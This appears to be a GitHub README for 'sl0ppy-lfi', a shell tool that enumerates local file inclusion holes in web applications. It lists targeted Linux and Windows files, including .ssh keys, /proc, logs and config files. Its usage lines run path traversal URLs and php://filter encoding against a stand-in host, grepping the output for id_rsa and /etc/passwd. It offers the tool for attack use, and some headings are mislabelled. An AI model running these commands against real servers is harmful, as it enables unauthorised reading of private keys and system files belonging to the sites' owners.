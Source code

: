 # sl0ppy-lfi
A small lfi enum tool, i upgraded the original source a bits here and there.  

# Added searches
* linux local files 
* linux log files 
* Linux proc files
* linux apache files
* linux .ssh files
* linux other files 

* windows local files
* windows log files
* windows config files
* windows other stuff    
* and alot more 

# !Added php://filther encoding! 

# install
* make all files executable with this command
* chmod +x install && ./install

# Usage 
* sl0ppy-lfi  
* sl0ppy-lfi-fw 


## {!} change the static set user and hash out the read -p "Please Enter Systems Username: " on all 4 blocks {!}
* Or use the pre-default implemented(read -p), and submit system user when asked for it.

# Usage sl0ppy-lfi  (old-original-file soon to be fully replaced by sl0ppy-lfi-fw) 

# Enum all sl0ppy-lfi
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../` 


# Enum specific stuff like only libc
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "libc"`
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= | grep "id_rsa"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "libc"` 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page=../../../../../../../../../../ | grep "id_rsa"`

# Output Enum 
* `./sl0ppy-lfi http://server.vulnerable.com/index.php?page= > output && cat output`  

# Usage sl0ppy-ProcessInfo
`./sl0ppy-ProcessInfo http://server.vulnerable.com/download.php?file=` 

# Usage sl0ppy-filter-enc-lfi
`./sl0ppy-filter-enc-lfi http://server.vulnerable.com/index.php > sl0ppy-enc.txt || cat /home/{user}/sl0ppy-lfi/sl0ppy-enc.txt`

# Usage sl0ppy-lfi-fw (sl0ppy-lfi-framework)

# Usage 
* `./sl0ppy-lfi-fw` 
* Choice 1 for windows based lfi file checks
* Choise 2 for linux based lfi file checks
* Cboise 3 for linux & windows lfi file checks
* choise 4 for PHP://filther encoding.. (fixed)
* Enter the lfi url when it ask for it like this.. http://server.vulnerable.com/index.php?page=` 
* Else as http://server.vulnerable.com/index.php?page=../../../../../../../../../../
* Or any other lfi param or pages... 

# Examples sl0ppy-lfi-fw

# usage Windows-lfi 
* `./sl0ppy-lfi-fw`
* option 1
* enter url when it ask for it like this `http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* `./sl0ppy-lfi-fw`
* option 2
* enter url when it ask for it like this `http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param

# usage Windows-lfi 
* `./sl0ppy-lfi-fw`
* option 3
* enter url when it ask for it like this `http://server.vulnerable.com/index.php?page=`
* or any other page, or lfi param


# Usage php://Filther-encoding` 
* `./sl0ppy-lfi-fw`
* * option 4 
* enter url when it ask for it like this `http://server.vulnerable.com/index.php > sl0ppy-enc.txt || cat /home/$user/sl0ppy-lfi/sl0ppy-enc.txt` 
* or use grep to finds specific files..
* `http://server.vulnerable.com/index.php > sl0ppy-enc.txt || cat /home/$user/sl0ppy-lfi/sl0ppy-enc.txt | grep "php"`
* `http://server.vulnerable.com/index.php > sl0ppy-enc.txt || cat /home/$user/sl0ppy-lfi/sl0ppy-enc.txt | grep "/etc/passwd"`


